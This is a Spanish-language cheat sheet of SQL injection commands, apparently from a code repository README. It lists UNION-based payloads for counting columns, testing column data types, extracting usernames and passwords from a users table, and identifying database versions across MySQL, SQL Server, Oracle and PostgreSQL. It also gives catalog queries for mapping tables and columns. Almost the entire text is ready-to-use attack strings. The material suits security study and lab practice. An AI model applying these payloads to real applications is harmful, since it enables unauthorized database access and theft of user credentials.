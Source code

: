 ## Comandos útiles

### Comandos Para realizar UNION ATTACKS

Para detectar la cantidad de columnas
> `' ORDER BY 1--`

Para Detectar las cantidad de columnas
> `' UNION SELECT NULL,NULL,NULL--`

Para Evalular el tipo de dato de cada columna (Este caso string)
> `' UNION SELECT 'a',NULL,NULL,NULL--`

Para obetener usuarios y contraseñas de la tabla users(si existe)
> `' UNION SELECT username, password FROM users--`

Concatenar la información en una columna
> `' UNION SELECT NULL,username || '~' || password FROM users--`


### Comandos para examinar la base de datos

Consultar tipo y version de la base de datos (con MYSQL y SQL SERVER)
> `' UNION SELECT @@version--`

Consultar tipo y version de la base de datos (con Oracle)
> `' UNION SELECT * from v$version--`

Consultar tipo y version de la base de datos (con PostgreSQL)
> `' UNION SELECT version()--`


**General:**
Obtener la estructura de tablas en la base de datos
> `SELECT * FROM information_schema.tables`

Esto regresa:
> `TABLE_CATALOG -- TABLE_SCHEMA -- TABLE_NAME -- TABLE_TYPE`

Obtener información detallada de tablas en la base de datos
> `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

Esto regresa:
> `TABLE_CATALOG -- TABLE_SCHEMA -- TABLE_NAME -- COLUMN_NAME -- DATA_TYPE`

**Para Oracle:**

Obtener la estructura de tablas en la base de datos (ORACLE)
> `SELECT * FROM all_tables`

Para ver todas las columnas que regresa
> https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286

Algunas Son:
> `OWNER, TABLE_NAME, NUM_ROWS`

Obtener información detallada de tablas en la base de datos (ORACLE)
> `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
